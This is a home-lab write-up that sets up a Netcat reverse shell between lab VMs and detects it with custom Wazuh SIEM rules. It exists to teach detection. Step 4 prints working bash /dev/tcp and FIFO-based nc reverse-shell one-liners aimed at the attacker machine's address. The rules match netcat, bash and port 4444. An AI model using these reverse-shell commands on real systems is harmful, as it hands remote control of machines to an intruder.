# Netcat Reverse Shell Detection using Wazuh SIEM

## **Date:** 7th & 8th May, 2026

---

## Environment

| Role | OS | IP |
|------|----|----|
| Attacker | Kali Linux VM | 10.219.27.131 |
| Victim | Ubuntu (VirtualBox) | 10.219.27.208 |
| Wazuh Server | Kali Main OS (Docker) | 10.219.27.37 |

---

## What I Did

I set up a simple lab with two VMs — a Kali attacker and an Ubuntu victim — and tried to detect a Netcat reverse shell using Wazuh SIEM. The Wazuh server was already running as a Docker container on my main Kali OS.

---

## Step 1 — Verified IPs

First I confirmed the IPs on all three machines using `ip a`.

**Victim (Ubuntu):**
```bash
ip a
```


**Attacker (Kali VM):**
```bash
ip a
```


**Wazuh Server (Kali Main OS):**
```bash
ip a
```


---

## Step 2 — Checked Netcat on Both Machines

I verified Netcat was installed on both machines before starting.

**On Attacker:**
```bash
which nc
```


**On Victim:**
```bash
which nc
```


Both returned `/usr/bin/nc` so I was good to go.

---

## Step 3 — Started Netcat Listener on Attacker

On the Kali attacker VM, I started a listener on port 4444 waiting for the victim to connect back.

```bash
nc -lvnp 4444
```


The terminal showed `listening on [any] 4444 ...` — listener was up and waiting.

---

## Step 4 — Executed Reverse Shell from Victim

On the Ubuntu victim machine, I ran the bash reverse shell payload pointing back to the attacker.

```bash
bash -i >& /dev/tcp/10.219.27.131/4444 0>&1
```


I also tested a FIFO-based reverse shell:
```bash
rm /tmp/f
mkfifo /tmp/f
cat /tmp/f | /bin/bash -i 2>&1 | nc 10.219.27.131 4444 > /tmp/f
```


---

## Step 5 — Got Interactive Shell on Attacker

The listener received the connection from `10.219.27.208`. I ran a few commands to confirm I was inside the victim's shell.

```bash
whoami
hostname
pwd
```


Output confirmed — I was inside the victim machine remotely from the attacker.

---

## Step 6 — Configured Wazuh Agent on Victim

I edited the Wazuh agent config on the victim to add command monitoring for active network connections.

```bash
sudo nano /var/ossec/etc/ossec.conf
```

Added this block:
```xml
<localfile>
  <log_format>full_command</log_format>
  <command>ss -antp</command>
  <frequency>30</frequency>
</localfile>
```


Then restarted and verified the agent:
```bash
sudo systemctl restart wazuh-agent
sudo systemctl status wazuh-agent
```


Agent came back up with status `active (running)`.

---

## Step 7 — Added Custom Detection Rules

I got into the Wazuh manager container and added three custom rules to `local_rules.xml`.

```bash
docker exec -it single-node-wazuh.manager-1 bash
```

```bash
sed -i '$d' /var/ossec/etc/rules/local_rules.xml

cat >> /var/ossec/etc/rules/local_rules.xml << 'EOF'
<rule id="100700" level="12">
  <match>nc</match>
  <description>Possible Netcat Execution Detected</description>
  <group>reverse_shell,netcat,execution,</group>
</rule>

<rule id="100701" level="13">
  <match>/bin/bash</match>
  <description>Possible Reverse Shell Activity Detected</description>
  <group>reverse_shell,bash,shell_execution,</group>
</rule>

<rule id="100702" level="10">
  <match>4444</match>
  <description>Suspicious Reverse Shell Port Connection</description>
  <group>reverse_shell,network_connection,</group>
</rule>

</group>
EOF
```

Verified the rules got added:
```bash
tail -20 /var/ossec/etc/rules/local_rules.xml
```

Then restarted the Wazuh manager:
```bash
/var/ossec/bin/wazuh-control restart
```


---

## Step 8 — Detected the Alert in Wazuh

After restarting, I re-ran the reverse shell and searched in the Wazuh **Threat Hunting** module.

```
rule.id: 100700
```



Rule 100700 fired — **"Possible Netcat Execution Detected"** — at severity level 12, twice, for agent `kishansai-VirtualBox`.



Expanded the log to see the full details — `agent.ip: 10.219.27.208`, `rule.level: 12`, `rule.groups: reverse_shell, netcat, execution`.



The document view confirmed everything — alert timestamped `May 11, 2026 @ 14:20:21`, `rule.firedtimes: 2`, `rule.mail: true`.

---

## What I have Observed

- Rule 100700 triggered consistently. Rules 100701 and 100702 didn't fire — the reverse shell was short-lived and the 30-second `ss -antp` poll likely missed the active connection.
- Wazuh picked up the Netcat activity through syslog entries that matched the `nc` pattern.
- Custom rules worked as expected once the manager restarted.
- Threat Hunting made it straightforward to search and verify by rule ID.
